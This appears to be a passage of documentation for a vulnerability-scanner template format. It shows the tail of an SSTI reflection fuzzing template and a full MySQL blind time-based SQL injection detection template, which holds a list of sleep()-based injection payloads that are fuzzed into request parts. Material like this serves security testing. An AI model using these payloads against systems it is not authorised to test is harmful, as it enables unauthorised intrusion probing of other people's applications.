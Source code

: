 ```yaml
    payloads:
      reflection:
        - '{{concat("{{", "§first§*§second§", "}}")}}'

    fuzzing:
      - part: query
        type: postfix
        mode: multiple
        fuzz:
          - "{{reflection}}"

    matchers:
      - type: word
        part: body
        words:
          - "{{result}}"
```

## **Blind Time Based SQLi Template**

A template to detect blind time based SQLi with a time delay analyzer.

```yaml
id: mysql-blind-time-based-sqli

info:
  name: MySQL SQLi - Blind Time based
  author: pdteam
  severity: critical
  reference:
    - https://github.com/zaproxy/zap-extensions/blob/main/addOns/ascanrules/src/main/java/org/zaproxy/zap/extension/ascanrules/SqlInjectionMySqlScanRule.java

http:
  - payloads:
      injections:
        low:
          - " / sleep([SLEEPTIME]) "
          - "' / sleep([SLEEPTIME]) / '"
          - "\" / sleep([SLEEPTIME]) / \""
        medium:
          - " and 0 in (select sleep([SLEEPTIME]) ) -- "
          - "' and 0 in (select sleep([SLEEPTIME]) ) -- "
          - "\" and 0 in (select sleep([SLEEPTIME]) ) -- "
          - " where 0 in (select sleep([SLEEPTIME]) ) -- "
          - "' where 0 in (select sleep([SLEEPTIME]) ) -- "
          - "\" where 0 in (select sleep([SLEEPTIME]) ) -- "
        high:
          - "\" where 0 in (select sleep([SLEEPTIME]) ) and \"\"=\""
          - " and 0 in (select sleep([SLEEPTIME]) ) "
          - "' and 0 in (select sleep([SLEEPTIME]) ) and ''='"
          - "\" and 0 in (select sleep([SLEEPTIME]) ) and \"\"=\""
          
    attack: pitchfork
    analyzer:
      name: time_delay
        
    fuzzing:
      - part: request # fuzz all the request parts.
        type: postfix
        mode: single
        fuzz:
          - "{{injections}}"
```